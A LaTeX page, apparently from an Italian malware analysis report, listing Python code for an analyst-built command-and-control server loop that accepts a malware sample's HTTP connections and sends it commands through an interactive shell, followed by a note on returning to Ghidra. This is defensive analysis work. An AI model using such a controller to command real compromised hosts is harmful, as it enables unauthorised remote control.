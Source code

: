 \documentclass[
    a4paper, %
    11pt %
]{article}
\begin{document}
\begin{lstlisting}[language=Python]
    s.bind((laddr, lport))
    s.listen()

    while True:
        conn = s.accept()
        unfiltered_http_req = ''

        try:
            unfiltered_http_req = read_all(conn[0]).decode('utf-8')
        except ConnectionResetError:
            conn[0].close()
            continue
        
        http_req = filter_http_req(unfiltered_http_req)
        if http_req != None:
            print(f" ** remote CONNECTED and SENT valid data {conn[1][0]}:{conn[1][1]}")
            print(http_req)

            # La richiesta POST dal malware al server indica risultato esec. comando.
            # Alla POST e necessaria una risposta HTTP "vuota" nel body
            # (in realta potrebbe essere anche piena di dati random...)
            # altrimenti alla prossima richiesta GET dal malware al server, 
            # il malware non accettera nemmeno comandi validi (comportamento "strano").
            # Questo "empty command" permette di resettare 
            # lo stato del malware in "accettazione di comandi" automaticamente, 
            # senza doverlo fare manualmente ogni volta (infatti c'e il comando 
            # non esplicitamente indicato nella shell, "empty" 
            # in start_interactive_shell -> elif tokens[0] == 'empty' ... 
            # per eseguire "empty" "a mano")
            if http_req[:4] == "POST":
                print(" ** issuing empty command")
                issue_remote_cmd(None, conn[0])
            else:
                while start_interactive_shell(conn[0]) == False:
                    pass

            print(" ** closing connection")

        conn[0].close()
            \end{lstlisting}

            \pagebreak

            \section{Analisi statica e dinamica per comprendere le altre funzionalità}

            Dato che non si riesce ad andare oltre con la sola analisi dinamica avanzata, per capire
            le funzioni rimanenti con descrizione \textit{??} in tabella \ref{table:fnlst}, dobbiamo per forza
            tornare ad utilizzare Ghidra.
\end{document}
